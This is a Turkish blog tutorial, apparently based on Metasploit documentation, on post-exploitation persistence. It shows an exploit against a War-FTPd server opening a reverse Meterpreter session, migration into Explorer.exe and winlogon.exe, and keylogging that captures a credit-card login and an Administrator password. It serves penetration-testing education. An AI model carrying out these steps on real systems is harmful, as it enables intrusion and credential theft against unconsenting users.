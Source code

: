 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcılık Sağlama'
date: '2017-06-15T13:54:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.' 
 
url:  /tr/msf-meterpreter-kalicilik-saglama/ 
post_views_count:
    - '0'
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Kalıcılık Sağlama



Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.



Bazı durumlarda, hedef üzerinde yaptığınız çalışmalar sistemi kararsız hale getirebilir. Sistemin tekrar başlatılması gerektiğinde bağlantınız da kopacaktır. Bu gibi durumlar için, hedef sisteme tekrar bağlanmanın kolay bir yolunu oluşturmak faydalı olacaktır.



Kalıcılık sağlamak için sistem hakkında kullanıcı bilgileri, token bilgileri, hash bilgileri ve bağlı olduğu diğer alt ağların keşfi ileride kullanım için oldukça fayda sağlamaktadır.



Bilgi toplamanın bir yöntemi de keylogger olarak ifade edilen yöntemdir.



## Metasploit içinde Keylogger Kullanımı



Bir sisteme giriş sağlandığında iki yaklaşım sergileyebilirsiniz. Çok hızlı olmak veya çok yavaş olmak. Keylogger, yani kullanıcının tuşlarını ve yazdıklarını kaydetmek, yavaş yaklaşıma bir örnektir. Bu yaklaşımda, gerçekleştirmek istediğiniz işlemleri çok hızlı yapamazsınız ancak uzun vadede çok kullanışlı bilgiler elde edebilirsiniz.



Öncelikle, bir exploit modülü kullanarak hedef sistemde oturum çalım.


```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 4 opened (172.16.104.130:4444 -> 172.16.104.145:1246)

meterpreter >
```



Oturum açıldıktan sonra, tuşları kayıt etmek için `Explorer.exe` prosesine geçmek başarı için daha garanti bir yoldur. Hedef sistemde `Explorer.exe` uygulaması, hangi PID numarasıyla çalışıyor öğreniyoruz ve `migrate` komutuyla geçiş yapıyoruz.


```bash
meterpreter > ps

Process list
**============**

    PID   Name               Path                                                   
    ---   ----               ----                                                   
    140   smss.exe           \SystemRoot\System32\smss.exe                          
    188   winlogon.exe       ??\C:\WINNT\system32\winlogon.exe                     
    216   services.exe       C:\WINNT\system32\services.exe                         
    228   lsass.exe          C:\WINNT\system32\lsass.exe                            
    380   svchost.exe        C:\WINNT\system32\svchost.exe                          
    408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                          
    444   svchost.exe        C:\WINNT\System32\svchost.exe                          
    480   regsvc.exe         C:\WINNT\system32\regsvc.exe                           
    500   MSTask.exe         C:\WINNT\system32\MSTask.exe                           
    528   VMwareService.exe  C:\Program Files\VMwareVMware Tools\VMwareService.exe 
    588   WinMgmt.exe        C:\WINNT\System32\WBEMWinMgmt.exe                     
    664   notepad.exe        C:\WINNT\System32 otepad.exe                          
    724   cmd.exe            C:\WINNT\System32\cmd.exe                              
    768   Explorer.exe       C:\WINNT\Explorer.exe                                  
    800   war-ftpd.exe       C:\Program Files\War-ftpd\war-ftpd.exe                 
    888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe    
    896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe    
    940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe           
    972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe 
    1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe 

meterpreter > migrate 768
> Migrating to 768...
> Migration completed successfully.
meterpreter > getpid
Current pid: 768
```



PID geçişini kontrol ettikten sonra keylogger işlemini başlatalım.


```bash
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
   tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
```



Bir miktar süre geçtikten sonra kayıt dosyasını görmek için `keyscan_dump` komutunu kullanabilirsiniz. Yakalanan tuş vuruşlarını incelediğinizde, CTRL veya ALT gibi tuşların log dosyasına nasıl kayıt edildiğini de öğrenebilirsiniz.



Ayrıca, oturum açma bilgilerini de yakalamak isterseniz, `Explorer.exe` yerine `migrate` komutuyla, `winlogon` prosesine geçebilirsiniz.


```bash
meterpreter > ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter > migrate 401

> Migrating to 401...
> Migration completed successfully.

meterpreter > keyscan_start
Starting the keystroke sniffer...
```



Kayıt esnasında bir Administrator kullanıcı oturumu açılmıştır. Sonucuna bakalım.


```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```



Görüldüğü gibi, oturum açan kullanıcı “Administrator” ve parolası “ohnoes1vebeenh4x0red!” olarak tespit edilmiştir.
